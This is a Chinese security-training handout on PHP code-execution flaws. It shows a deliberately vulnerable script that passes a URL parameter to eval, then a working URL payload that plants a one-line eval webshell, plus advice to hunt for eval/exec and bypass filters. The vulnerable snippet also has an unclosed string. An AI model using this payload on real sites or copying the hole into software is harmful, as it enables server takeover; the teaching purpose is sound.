

# 米斯特白帽培训讲义 漏洞篇 代码执行

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 原理

由于开发人员编写源码时，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句，并交由服务端执行。命令注入攻击中，Web 服务器没有过滤类似`system`、`eval`和`exec`等函数，是该漏洞攻击成功的主要原因。

## 实例代码

```
<?php
// code-exe.php:
$code=@$_GET['code'];//http://localhost/subject/code-exe.php?code=
echo "<center>Payload:".$code."<br/>Result:</center>
eval($code);
```

整个代码就三行，第一行用于从 URL 参数中读取`code`参数的值。第二行用于输出该参数的值，用于检查该参数。第三行直接将该参数当做 PHP 代码执行。由于不存在任何过滤，就会产生代码执行漏洞。

我们在该文件的目录下执行`php -S 0.0.0.0:80`，之后访问`http://localhost/code-exe.php?code=phpinfo();`，我们可以看到该代码执行了`phpinfo`函数：



## 利用

我们可以将 URL 中`code`参数值换成不同的 PHP 代码，使其执行不同的 PHP 代码。利用此漏洞的关键还是熟悉所有可用的 PHP 代码。

比如，可以使用`phpinfo`或者`echo`等调试函数来判定漏洞。最重要的是，可以利用这个漏洞写入 Webshell，代码如下：

```
$file='mst.php'; // 一句话木马的文件名
$person='<?php @eval($_POST[1]);?>'; // 一句话文件名的代码
file_put_contents($file,$person, FILE_APPEND | LOCK_EX); // 当key.php文件不存在会自动创建，如果存在就会添加
```

我们需要把这三行代码写入 URL 中，得到的 URL 是这样：`http://localhost/code-exe.php?code=$file='mst.php';$person='<?php @eval($_POST[1]);?>';file_put_contents($file,$person, FILE_APPEND | LOCK_EX);`。

访问之后，当前目录就会多出一个`mst.php`，内容为`<?php @eval($_POST[1]);?>`，这个就是一句话木马。由于不是讲工具的章节，这里就不拿菜刀演示了。

在实际代码中，当然不可能这么短，就需要大家使用`eval`和`exec`作为关键词来搜索可能的漏洞点。另外，实际代码中还可能在执行之前对`$code`进行过滤，也需要大家发挥创造性，绕过过滤来成功利用它。